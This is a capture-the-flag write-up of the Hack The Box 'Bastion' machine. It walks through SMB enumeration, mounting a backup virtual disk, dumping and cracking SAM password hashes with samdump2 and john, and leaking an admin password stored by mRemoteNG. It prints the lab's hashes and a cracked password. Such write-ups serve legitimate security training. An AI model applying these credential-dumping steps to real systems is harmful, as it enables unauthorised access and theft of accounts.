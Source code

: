 # bastion.htb
### Write-up for the bastion machine from hackthebox

Bastion was an awesome learning oppportunity. Mounting an SMB share and enumerating its contents reveals a virtual hard disk that you need to either figure out how to mount or open in a VM. I chose to mount via kali. Once mounted, you can get user creds using samdump2. You are then able to ssh into the box and begin enumerating for privesc. In your enumeration, you'll find a application that insecurely stores passwords. If you didn't spin up a VM earlier, you'll have to do it now in order to follow the steps for a password leak that was posted online. This will get you admin creds and enable you to root the box.

### Scan and Basic Recon

I began with a safe script and version scan with nmap

```
nmap -sV -sC -oN tcp.nmap 10.10.10.134

Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-03 15:21 CDT
Nmap scan report for 10.10.10.134
Host is up (0.14s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-03T22:22:17+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-05-03 15:22:16
|_  start_date: 2019-05-03 14:40:05

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.25 seconds
```

Neat! No web servers so far, and anonymous access to SMB enabled. I ran `smbmap -u anonymous -H 10.10.10.134` and got the following output.

```
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445	Name: 10.10.10.134                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	Backups                                           	READ, WRITE
	[!] Unable to remove test directory at \\10.10.10.134\Backups\CMmGdHrWob, plreae remove manually
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
```

Taking a peek into the `Backups` share with `smbclient` shows many things to investigate. I could file transfer to my local machine, but that seems a bit excessive, especially with some files in the share that are larger than 5GB. Let's try mounting the share. I first made a mount point in `/mnt`.

`mkdir /mnt/smb`

and then ran

`mount.cifs //10.10.10.134/Backups /mnt/smb`

Success! Let's rummage through here and see what we can find. That 5GB file I mentioned earlier is a virtual hard drive. I'd like to see what's on it. I could open it in a VM, but hey we've been mounting successfully so far and ~my computer is crap and likely wont't be able to handle the load of a VM~ I'm feeling lucky.

After much research, I saw that I could use `guestmount` from [libguestfs-tools](http://libguestfs.org/guestmount.1.html). After installing `libguestfs-tools` I ran

`guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /mnt/vhd/`

The drive name following the `-a` is what will be mounted. `-i` inspects the disk looking for an operating system and mounts the filesystem as it would be mounted on the real virtual machine. `--ro` mounts the drive in read only mode. It gave me the below output.

![Screenshot from 2019-07-25 22-23-45](https://user-images.githubusercontent.com/46615118/61970965-780a9400-afa3-11e9-825d-fa6189a01135.jpg)

### Gaining Access

On Windows, the Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. SAM passwords are stored as a LM hash or as a NTLM hash. This file can be found in `%SystemRoot%/system32/config/SAM`.

I used `samdump2` to extract the hashes from the SAM db.

![Screenshot from 2019-07-25 22-37-43](https://user-images.githubusercontent.com/46615118/61974849-2d8e1500-afad-11e9-908f-daf4ea2f346b.jpg)

I then ran john against the hashes, using rockyou.txt as the wordlist

`john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`

and this gave me creds for the user `L4mpje`:

```
john --show --format=NT ~/Desktop/hashes.txt 
*disabled* Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Looking back at our nmap output we see that ssh is available. I try `ssh L4mpje@10.10.10.134` and enter the password, and we're in and can get `user.txt`!

![Screenshot from 2019-07-25 22-46-24 (1)](https://user-images.githubusercontent.com/46615118/61975322-6e3a5e00-afae-11e9-9e77-e4cff510e912.jpg)

### Privesc and Pwn

Next I need to enumerate to find a path to privesc. A reasonable start would be to [look at the programs that the user installed](https://www.howtogeek.com/165293/how-to-get-a-list-of-software-installed-on-your-pc-with-a-single-command/) on the machine. I ran the following powershell to output installed software on the machine.

```Powershell
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallDate
```
This returns the following:

![Screenshot from 2019-07-27 13-59-31](https://user-images.githubusercontent.com/46615118/61999282-1a4d7900-b083-11e9-9160-e9cabda87dbb.jpg)

We'll focus first on mRemoteNG. Searchsploit has nothing, but google searching returns [this article](http://hackersvanguard.com/mremoteng-insecure-password-storage/). In reading the article, we see that the author has figured out a way to dump passwords stored in the app by editing the connections configuration file, which is by default named `confCons.xml`. 

So, it looks like I'll have to spin up a VM and install the app to follow the author's lead. Rats. Let's grab L4mpje's `confCons.xml` before we mess with the VM. I'll use good ol' `scp`.

![Screenshot from 2019-07-27 14-50-03](https://user-images.githubusercontent.com/46615118/61999280-16b9f200-b083-11e9-883b-340a1c946598.jpg)

I installed a VM (windows 10, 64-bit, build WinDev1903Eval worked for me) and installed mRemoteNG. I replaced the stock config file with L4mpje's, and ran the program. It took a while to figure out that I only needed to expose the Admin password and not rewrite the `Protected` string mentioned at the beginning of the attack. We already have the access we need. I created a new external tool as mentioned in the article. I followed the next steps and was able to leak the Admin password.


![Screenshot from 2019-05-23 15-45-18](https://user-images.githubusercontent.com/46615118/61974304-d5a2de80-afab-11e9-81f8-54f9a3bc92e4.jpg)

I ssh'd in with the admin creds and entered the password. I then navigated to the desktop and pillaged root.txt. 

![Screenshot from 2019-07-27 14-52-27](https://user-images.githubusercontent.com/46615118/61999279-14f02e80-b083-11e9-8bce-175663cad0ba.jpg)

~fin!

### Lessons Learned
- I did this box a while back and my note taking was poor, thus:
... - I don't remember how I figured out that the version of mRemoteNG on the box was vulnerable to the attack
... - I don't remember how I figured out the SAM file was accessable.
... - More than likely I read the htb forums . for the answers to the above.

- I need a better methodology for taking notes.

